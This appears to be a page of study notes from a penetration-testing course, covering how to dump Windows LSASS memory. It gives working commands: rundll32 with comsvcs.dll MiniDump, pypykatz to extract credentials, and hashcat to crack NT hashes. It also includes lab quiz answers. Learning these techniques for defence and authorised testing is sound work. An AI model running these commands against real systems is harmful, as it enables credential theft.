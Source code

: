 <figure><img src=".gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

#### Dumping LSASS Process memory

a) Task Manager -> find a process there - right-click - create dump file, file is saved in C:/users/\<user>/AddData/Local/Temp

b) Rundll32.exe & Comsvcs.dll -> Rundll32.exe is cmd utility for dumping lsass memory, first we need to find ProcessID (PID) of lsass.exe (tasklist /svc)

c) creating lsass.dmp using powershell -> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

d) PYPYKATZ -> pypykatz lsa minidump /home/peter/Documents/lsass.dmp



Then we can crack the NT Hash with Hashcat

`sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`

#### Questions

**What is the name of the executable file associated with the Local Security Authority Process?**

<mark style="color:green;">**lsass.exe**</mark>

**Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)**

* Connect using RDP
* Task manager
  *   LSASS -> right-click -> Create dump file
